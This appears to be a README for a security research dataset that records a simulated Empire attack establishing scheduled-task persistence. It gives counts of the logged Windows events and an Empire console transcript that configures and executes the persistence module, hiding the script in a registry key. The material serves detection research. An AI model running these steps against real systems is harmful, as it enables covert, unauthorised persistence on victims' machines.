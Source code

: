 
# Empire Userland Schedule Tasks

An adversary can create a registry key and scheduled task to mainting persistence in the environment

## Technique(s) ID

T1060

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## dataset

[empire_userland_schtasks.tar.gz](./empire_userland_schtasks.tar.gz)

## Nnetwork Environment

Shire

## Time Taken

2019-03-19024742

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             139 |
| Security                                 | Token Right Adjusted Events                            |             198 |
| Security                                 | Filtering Platform Connection                          |              88 |
| Security                                 | Group Membership                                       |               7 |
| Security                                 | Logoff                                                 |               7 |
| Security                                 | Logon                                                  |               7 |
| Security                                 | Special Logon                                          |               6 |
| Security                                 | File Share                                             |               3 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | Detailed File Share                                    |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             161 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              69 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              33 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              24 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              23 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |               8 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             116 |

## Empire Activity

```
usemodule persistence/userland/schtasks
```

```
(Empire: powershell/persistence/userland/schtasks) > set Listener https
(Empire: powershell/persistence/userland/schtasks) > set TaskName Maintenance
(Empire: powershell/persistence/userland/schtasks) > info   

              Name: Invoke-Schtasks
            Module: powershell/persistence/userland/schtasks
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @mattifestation
  @harmj0y

Description:
  Persist a stager (or script) using schtasks. This has a
  moderate detection/removal rating.

Comments:
  https://github.com/mattifestation/PowerSploit/blob/master/Pe
  rsistence/Persistence.psm1

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  DailyTime  False       09:00                     Daily time to trigger the script        
                                                   (HH:mm).                                
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  ExtFile    False                                 Use an external file for the payload    
                                                   instead of a stager.                    
  Cleanup    False                                 Switch. Cleanup the trigger and any     
                                                   script from specified location.         
  TaskName   True        Maintenance               Name to use for the schtask.            
  IdleTime   False                                 User idle time (in minutes) to trigger  
                                                   script.                                 
  ADSPath    False                                 Alternate-data-stream location to store 
                                                   the script code.                        
  Agent      True        FD6A3MGY                  Agent to run module on.                 
  Listener   False       https                     Listener to use.                        
  RegPath    False       HKCU:\Software\Microsoft  Registry location to store the script   
                         \Windows\CurrentVersion\  code. Last element is the key name.     
                         debug                   
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/persistence/userland/schtasks) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked FD6A3MGY to run TASK_CMD_WAIT
[*] Agent FD6A3MGY tasked with task ID 11
[*] Tasked agent FD6A3MGY to run module powershell/persistence/userland/schtasks
(Empire: powershell/persistence/userland/schtasks) > SUCCESS: The scheduled task "Maintenance" has successfully been created.
Schtasks persistence established using listener https stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Maintenance daily trigger at 09:00.

(Empire: powershell/persistence/userland/schtasks) >
```